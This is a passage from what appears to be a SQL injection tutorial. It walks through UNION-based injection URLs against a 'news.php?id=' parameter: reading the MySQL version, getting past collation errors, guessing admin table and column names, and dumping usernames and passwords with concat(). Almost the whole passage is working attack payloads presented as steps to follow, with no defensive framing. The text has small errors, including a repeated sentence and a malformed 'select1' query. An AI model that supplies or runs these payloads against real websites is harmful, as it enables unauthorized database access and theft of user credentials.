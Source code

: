 Let say that we have number 2 on the screen, now to check for versión we replace the number 2 with @@version or version() and get someting like 4.1.33-log or 5.0.45 or similar.
~~~bash
http://server/news.php?id=5 union all select 1,@@version,3/*
~~~
> If you get an error “union + illegal mix of collations (IMPLICIT + COERCIBLE) …”, what you will need to do is to use the convert() function as per the below example.

Example:
~~~bash
http://server/news.php?id=5 union all select 1,convert(@@version using latin1),3/*
Or with hex() and unhex()
~~~

Example:
~~~bash
http://server/news.php?id=5 union all select 1,unhex(hex(@@version)),3/*
And you will get MySQL version
~~~

5. GETTING TABLE AND COLUMN NAME

### Well if the MySQL version is < 5 (example, 4.1.33, 4.1.12…), we must guess table and column name in most cases. Common table names are: user/s, admin/s, member/s. Common table names are: user/s, admin/s, member/s. Common column names are: username, user, usr, user_name, password, pass, passwd, pwd etc…

Example:

~~~bash
http://server/news.php?id=5 union all select 1,2,3 from admin/*
~~~

> (We see number 2 on the screen like before, and that’s good).

> We get username displayed on screen, example would be admin, or superadmin etc…

> Now to check if column password exists.

~~~bash
http://server/news.php?id=5 union all select 1,password,3 from admin/*
~~~

### We seen password on the screen in hash or plain-text, it depends of how the database is set up i.e md5 hash, mysql hash, sha1. Now we must complete query to look nice. For that we can use concat() function (it joins strings)

Example:

http://server/news.php?id=5 union all select1,concat(username,0x3a,password),3 from admin/*

> NOTE: We used 0x3a, it’s a hexadecimal value (0x3a is the hexadecimal value for the column). Another method is to use char (58) in ascii mode.

http://server/news.php?id=5 union all select 1,concat(username,char(58), password),3 from admin/*
